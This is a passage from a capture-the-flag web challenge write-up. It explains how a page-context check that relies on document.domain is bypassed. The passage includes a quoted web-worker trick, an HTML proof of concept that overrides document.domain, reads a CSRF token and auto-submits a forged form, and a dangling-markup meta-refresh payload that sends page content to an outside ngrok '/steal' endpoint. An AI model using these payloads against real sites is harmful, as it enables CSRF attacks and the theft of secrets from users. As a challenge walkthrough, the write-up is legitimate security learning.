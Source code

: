 Here, it checks whether it is in the window context and `document.domain`. When I saw this, I immediately thought of the Intigriti XSS challenge in October 2022. The author's writeup is here: https://github.com/0xGodson/blogs/blob/master/_posts/2022-10-14-intigriti-oct-xss-challenge-author-writeup.md

One part of the challenge uses a web worker to bypass the check on `window.location.href` and `document.domain`, like this:

``` js
// worker.js

window = {}
window.location = {}
document = {}

// send the secret to top window!
window.saveSecret = function(msg){  
  self.postMessage(msg)  
}

window.location.href = "https://challenge-1022.intigriti.io/challenge/create";
document.domain = "challenge-1022.intigriti.io";

// we can use importScripts function from API to import external scripts!
importScripts("https://challenge-1022.intigriti.io/challenge/getSecret.js");
```

So this challenge specifically checks the context to try to block this, but fortunately when I was researching Intigriti, I found that `document.domain` can actually be overridden using `Object.defineProperty`, so CSRF can be done like this:

``` html
<script>
  Object.defineProperty(document, 'domain', {
    value: '35.200.57.143'
  })
</script>
<input id="_csrf" />
<script src="https://35.200.57.143:11004/getSettings.js"></script>
<form id=f method=POST action="https://35.200.57.143:11004/profile" target="_blank">
  <input name="name" value="poc">
  <input name="csrf" value="">
</form>

<script>
  const csrf = _csrf.value
  f.csrf.value = csrf
  f.submit()
</script>
```

Next is to steal the nonce. This challenge uses Firefox, and it doesn't seem to have much protection against Dangling Markup Injection, which can be used to steal the following content using meta redirect: `<meta http-equiv=refresh content='0; url=http://43d1-ip.ngrok.io/steal?q=`
